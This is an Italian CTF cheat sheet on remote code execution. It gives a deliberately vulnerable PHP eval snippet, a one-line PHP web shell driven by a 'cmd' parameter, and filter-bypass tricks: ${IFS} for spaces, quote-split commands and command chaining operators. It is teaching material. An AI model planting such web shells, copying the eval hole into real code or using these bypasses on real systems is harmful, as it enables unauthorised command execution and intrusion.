 # RCE
Vulnerabilità (critica) che permette di eseguire codice arbitrario su un dispositivo da remoto.
Un classico esempio di codice che porta a RCE, in PHP, è: 
```
<?php $code = $_GET['code'];
eval($code); ?>
```
Possiamo quindi eseguire del codice tramite il prametro 'code': 
```
http://host/page.php?code=phpinfo();
```
# REVERSE SHELL
Assumento che si possa anche caricare un file che venga poi eseguito è possibile inserire nel file il seguente payload:

(Vedi [https://www.revshells.com/](https://www.revshells.com/) per payload di reverse shell)

```
<?php echo shell_exec($_GET['cmd']); ?>
```
Che ci permette, una volta che ci siamo posizionati sul file che abbiamo caricato, di eseguire dei comandi arbitrari tramite il parametro ```?cmd=phpinfo()```

Nelle CTF può capitare che ,al posto di sanificare l'input, venga proposta una blacklist per cercare di evitare un certo tipo di attacco. Questo è generalmente sbagliato e ci sono vari modi per bypassare questi controlli. 

# BYPASS DELLO SPAZIO
Uno dei bypass più comuni da effettuare è quello del blocco di spazi nei comandi che si vogliono eseguire, generlamente ```${IFS} e $IFS``` ci permettono di rappresentare lo spazio nella maggior parte delle shell.

Tenete sempre conto del fatto che passare il payload nell'url può dare problemi per via dell'URL Encode(in certi casi permette di effettuare dei bypass) e che molte informazioni possono essere rappresentate in Base64.

Come già detto cercate di capire il sistema che avete davanti e siate creativi, a volte basta un po' di creatività per ottenere la flag, per esempio con payload del tipo: 
```
w'h'o'am'i
wh''oami
```
# CONCATENARE COMANDI
Tecniche che permettono di concatenare più comandi (queste sono per RCE in sistemi Unix): 
```
; 
&& (AND)
|| (OR)
& (Background)
| (Pipe): Prende l'output del primo comando e lo usa come input del secondo
```
```
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```
Inoltre ricordatevi che i commenti sono vostri amici, può esservi utile commentare quello che non vi serve in una determinata parte di codice.
